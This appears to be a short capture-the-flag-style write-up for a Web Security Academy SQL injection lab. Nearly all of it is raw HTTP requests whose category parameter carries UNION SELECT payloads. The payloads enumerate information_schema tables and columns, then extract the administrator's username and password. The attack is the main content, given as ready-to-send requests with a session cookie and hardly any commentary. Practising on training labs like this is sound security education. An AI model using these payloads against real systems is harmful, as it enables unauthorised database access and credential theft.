 pgSQL
##### Base request
GET /filter?category=Tech+gifts HTTP/2
Host: 0aa9006d03082897807b90fd00a100f6.web-security-academy.net
Cookie: session=0apMU3eIQFnQYAstesqgIjBLMgcoyyrq
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa9006d03082897807b90fd00a100f6.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


##### Step1: Identify DB used and look up all the tables
GET /filter?category=Tech+gifts _' UNION SELECT table_name,NULL FROM information_schema.tables--_ HTTP/2
Host: 0aa9006d03082897807b90fd00a100f6.web-security-academy.net
Cookie: session=0apMU3eIQFnQYAstesqgIjBLMgcoyyrq
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa9006d03082897807b90fd00a100f6.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step2: Identify relevant table with username and password, then look up the columns
GET /filter?category=Tech+gifts _' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_ucxsqs'--_ HTTP/2
Host: 0aa9006d03082897807b90fd00a100f6.web-security-academy.net
Cookie: session=0apMU3eIQFnQYAstesqgIjBLMgcoyyrq
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa9006d03082897807b90fd00a100f6.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step3: identify target user and print out password
GET /filter?category=Tech+gifts _' UNION SELECT username_wkdwqr,password_ikjyxx FROM users_ucxsqs WHERE username_wkdwqr='administrator'--_ HTTP/2
Host: 0aa9006d03082897807b90fd00a100f6.web-security-academy.net
Cookie: session=0apMU3eIQFnQYAstesqgIjBLMgcoyyrq
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa9006d03082897807b90fd00a100f6.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


